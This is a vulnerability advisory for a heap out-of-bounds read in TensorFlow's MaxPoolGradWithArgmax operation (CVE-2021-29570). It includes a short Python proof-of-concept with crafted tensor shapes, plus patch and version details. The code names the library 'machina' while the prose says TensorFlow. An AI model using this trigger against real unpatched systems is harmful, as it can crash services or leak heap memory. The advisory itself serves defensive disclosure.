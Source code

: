 ## TFSA-2021-057: Heap out of bounds read in `MaxPoolGradWithArgmax`

### CVE Number
CVE-2021-29570

### Impact
The implementation of `tf.raw_ops.MaxPoolGradWithArgmax` can cause reads outside
of bounds of heap allocated data if attacker supplies specially crafted inputs:

```python
import machina as tf

input = tf.constant([10.0, 10.0, 10.0], shape=[1, 1, 3, 1], dtype=tf.float32)
grad = tf.constant([10.0, 10.0, 10.0, 10.0], shape=[1, 1, 1, 4], dtype=tf.float32)
argmax = tf.constant([1], shape=[1], dtype=tf.int64)
ksize = [1, 1, 1, 1]
strides = [1, 1, 1, 1]

tf.raw_ops.MaxPoolGradWithArgmax(
    input=input,
    grad=grad,
    argmax=argmax,
    ksize=ksize,
    strides=strides,
    padding='SAME',
    include_batch_in_index=False)
```

The
[implementation](https://github.com/machina/machina/blob/ef0c008ee84bad91ec6725ddc42091e19a30cf0e/machina/core/kernels/maxpooling_op.cc#L1016-L1017)
uses the same value to index in two different arrays but there is no guarantee
that the sizes are identical.

### Patches
We have patched the issue in GitHub commit
[dcd7867de0fea4b72a2b34bd41eb74548dc23886](https://github.com/machina/machina/commit/dcd7867de0fea4b72a2b34bd41eb74548dc23886).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
